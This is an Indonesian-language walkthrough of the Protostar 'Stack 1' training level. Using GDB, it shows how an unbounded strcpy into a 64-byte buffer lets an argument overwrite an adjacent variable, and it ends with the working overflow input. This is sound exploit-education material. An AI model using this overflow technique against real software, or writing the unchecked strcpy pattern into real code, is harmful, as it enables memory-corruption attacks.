 # Stack 1
## Tentang
Level ini memperkenalkan konsep memodifikasi variabel ke nilai tertentu dalam program, dan bagaimana variabel diletakkan dalam memori.

## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Target Exploits
Pada level ini kita ditargetkan untuk mengubah variabel **modified** menjadi 0x61626364 untuk mencetak string "you have correctly got the variable to the right value". Pada program diatas, input kita disimpan pada kedalam buffer menggunakan fungsi **strcpy()**.

## Kerentanan Program
**strcpy()** bukanlah fungsi yang berbahaya seperti gets(), namun pada program diatas, ia tidak menentukan seberapa banyak buffer bisa disimpan di dalam alamat memory sehingga kita dapat menimpa alamat alamat seterusnya. Ini yang akan kita manfaatkan untuk menimpa nilai dari modified variabel.


## Lets Dive Deeper
**[!] Disclaimer** saya disini memindahkannya dari Protostar machine kedalam local maschine saya, agar lebih mudah untuk menganalisis programnya. Disini saya juga menggunakan ekstensi dari GDB yaitu gef. Jadi alamat pada machine anda mungkin berbeda.

> **gdb --args stack1 AAAA** </br>
> **disass main**
```
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	and    esp,0xfffffff0
   0x0804846a <+6>:	sub    esp,0x60
   0x0804846d <+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048471 <+13>:	jne    0x8048487 <main+35>
   0x08048473 <+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
   0x0804847b <+23>:	mov    DWORD PTR [esp],0x1
   0x08048482 <+30>:	call   0x8048388 <errx@plt>
   0x08048487 <+35>:	mov    DWORD PTR [esp+0x5c],0x0
   0x0804848f <+43>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048492 <+46>:	add    eax,0x4
   0x08048495 <+49>:	mov    eax,DWORD PTR [eax]
   0x08048497 <+51>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849b <+55>:	lea    eax,[esp+0x1c]
   0x0804849f <+59>:	mov    DWORD PTR [esp],eax
   0x080484a2 <+62>:	call   0x8048368 <strcpy@plt>
   0x080484a7 <+67>:	mov    eax,DWORD PTR [esp+0x5c]
   0x080484ab <+71>:	cmp    eax,0x61626364
   0x080484b0 <+76>:	jne    0x80484c0 <main+92>
   0x080484b2 <+78>:	mov    DWORD PTR [esp],0x80485bc
   0x080484b9 <+85>:	call   0x8048398 <puts@plt>
   0x080484be <+90>:	jmp    0x80484d5 <main+113>
   0x080484c0 <+92>:	mov    edx,DWORD PTR [esp+0x5c]
   0x080484c4 <+96>:	mov    eax,0x80485f3
   0x080484c9 <+101>:	mov    DWORD PTR [esp+0x4],edx
   0x080484cd <+105>:	mov    DWORD PTR [esp],eax
   0x080484d0 <+108>:	call   0x8048378 <printf@plt>
   0x080484d5 <+113>:	leave
   0x080484d6 <+114>:	ret
```

Dapat kita lihat bahwa di alamat **0x080484a2** terdapat fungsi strcpy() yang meminta argument ketika program dijalankan, disini kita memasukkan argumen AAAA kedalam programnya. Setelah strcpy() dijalankan kita dapat melihat pada alamat **0x080484ab** terdapat perintah cmp. Pada assembly cmp digunakan untuk membandingkan nilai satu sama lain, disini dapat dilihat register **eax** dan **0x61626364** yang dibandingkan. Namun apa nilai eax?. Lets find out! </br>

Kita dapat meletakkan breakpoint pada alamat **0x080484ab** untuk melihat nilainya
> b *0x080484ab </br>
> x/wx $esp+0x5c  </br>
> x/wx $eax  </br>

```
gef➤  x/wx $esp+0x5c
0xffffcdcc:	0x00000000
gef➤  x/wx $eax
0x0:	Cannot access memory at address 0x0
```

Dapat kita lihat bahwa nilai dari $esp+0x5c yang dimasukkan kedalam eax adalah 0. Jadi kita dapat menduga bahwa $esp+0x5c adalah dimana nilai modified variabel disimpan. </br>
Sekarang kita sudah mengetahui dimana modified variabel disimpan, tapi seberapa banyak karakter yang kita butuhkan untuk mengubah nilainya? </br></br>

Pertama tama kita cari tahu terlebih dahulu dimana input kita disimpan. Pada alamat **0x0804849b** kita dapat melihat perintah lea *(load effective address)*, cara bekerjanya sedikit mirip dengan *mov*. Jadi coba kita lihat berapa nilai dari **$esp+0x1c**

> x/wx $esp+0x1c </br>

```
gef➤  x/wx $esp+0x1c
0xffffcd8c:	0x41414141
```

Nah 0x41414141 adalah **AAAA** yang kita masukkan sebagai argumen pada program. Jadi dapat disimpulkan alamat input kita berada pada **0xffffcd8c** dan alamat yang ingin kita ubah adalah **0xffffcdcc**. Terlihat tidak begitu jauh bukan?. Coba kita hitung seberapa banyak yang kita butuhkan.

>p/d 0xffffcdcc - 0xffffcd8c

```
gef➤  p/d 0xffffcdcc - 0xffffcd8c
$2 = 64
```

Kita sekarang tau bahwa kita membutuhkan 64 karakter untuk sampai ke alamat tersebut. Mari kita coba!

```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00000000
```

Kita masih belum mengubah variabel nya, coba kita tambahkan string **BBBB** setelahnya

```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Try again, you got 0x42424242
```

Dapat dilihat bahwa **0x42424242** muncul sebagai representasi dari **BBBB**. Masih ingatkah anda dengan target utama kita?, yaitu mengubah variabel modified menjadi 0x61626364, yang artinya **BBBB** kita ganti dengan hex tersebut dalam ASCII. Coba kita lihat berapa hex tersebut dalam ASCII

> python </br>
> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)

```
python
>>> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)
'abcd'
```
Sudah kita ketahui sekarang apa saja yang kita butuhkan untuk mengubah variabelnya, mari kita coba kembali
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd 
Try again, you got 0x64636261
```

Ha? mengapa kita mendapatkan **0x64636261** bukan **0x61626364**?. Itu terjadi karena litle endian.

### Litle Endian
> Little-endian Menyimpan byte paling tidak signifikan (yang disebut “ujung paling kecil”) terlebih dahulu. Ini berarti bahwa byte pertama (pada alamat memori terendah) adalah yang terkecil, yang paling masuk akal bagi orang, yaitu membaca dari kanan ke kiri

Sekarang kita sudah mengetahui apa itu litle endian, mari kita coba sekali lagi dengan membaliknya menjadi **dcba** untuk mengalahkan level ini!
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

Yeay! Kita berhasil menyelesaikannya
